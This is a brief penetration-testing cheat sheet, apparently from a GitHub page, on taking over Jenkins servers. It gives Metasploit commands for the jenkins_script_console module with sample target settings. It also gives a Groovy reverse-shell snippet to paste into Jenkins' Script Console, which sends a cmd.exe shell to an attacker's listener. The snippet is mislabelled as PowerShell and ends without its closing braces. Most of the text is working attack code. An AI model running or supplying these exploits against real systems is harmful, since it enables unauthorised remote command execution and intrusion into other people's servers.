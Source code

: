 ### Jenkins Automation Server

#### What is Jenkins

From Wikipedia

```
Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration, and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat.
```

Official Website

```
https://www.jenkins.io/
```

#### Impact

Successful exploitation of this vulnerability leads to establishing first foothold access with shell access.

#### Exploitation With Metasploit

The below module is used to exploit vulnerable versions of Jenkins and return a Meterpreter shell.

```
use exploit/multi/http/jenkins_script_console
```

Modify the below parameters according to your environment

```
msf exploit(jenkins_script_console) > set rhost 192.168.1.106 

msf exploit(jenkins_script_console) > set rport 8484 

msf exploit(jenkins_script_console) > set targeturi / 

msf exploit(jenkins_script_console) > set target 0 

msf exploit(jenkins_script_console) > exploit
```

#### Exploitation With Groovy Shell

If you managed to get access to Jenkins dashboard, then at Jenkins Dashboard

* Go to **Manage Jenkins** and then select **Script Console**.
* Once inside the script console, we can paste the below. Make sure to change the port to the port you are using in your listener and localhost to the machine that will receive the connection

```powershell
String host="localhost";

int port=8044;

String cmd="cmd.exe";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();

while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
```